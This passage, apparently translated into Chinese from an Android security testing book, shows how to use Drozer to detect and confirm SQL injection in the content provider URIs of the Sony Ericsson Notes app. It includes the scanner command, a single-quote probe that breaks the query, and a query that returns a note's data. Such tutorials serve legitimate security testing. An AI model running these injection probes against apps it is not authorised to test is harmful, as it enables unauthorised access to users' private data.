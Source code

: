 让我们看看如何在内容提供商 URI 中发现 SQL 注入漏洞。我们可以使用`scanner.provider.injection`模块：

```
dz> run scanner.provider.injection -a [package name]

```

Scanner 是 Drozer 中的一个不错的模块，可以自动发现注入和路径遍历漏洞。我们将在本节后面讨论路径遍历攻击。

运行以下命令将告诉我们内容提供程序中是否存在任何注入漏洞：

```
dz> run scanner.provider.injection -a com.sonyericsson.notes
Scanning com.sonyericsson.notes...
Not Vulnerable:
 content://com.sonyericsson.notes.provider.Note
 content://com.sonyericsson.notes.provider.Note/

Injection in Projection:
 No vulnerabilities found.

Injection in Selection:
 content://com.sonyericsson.notes.provider.Note/notes/
 content://com.sonyericsson.notes.provider.Note/accounts/
 content://com.sonyericsson.notes.provider.Note/accounts
 content://com.sonyericsson.notes.provider.Note/notes
dz> 

```

正如我们在前面的摘录中所看到的，所有四个 URI 在选择中都有注入漏洞。

如前所述，确认 SQL 注入的传统方法是传递单个引号并中断查询。让我们在 selection 中传递一个引号（'），并查看响应。

这可以按如下所示进行：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "'"

unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (')
dz>

```

如果我们观察到前面的响应，那么单引号已经发送到查询，并且它会在中断的查询中抛出一个错误。

现在，让我们通过传递`id=1`来形成一个适当的查询：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1"
| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |
dz>

```
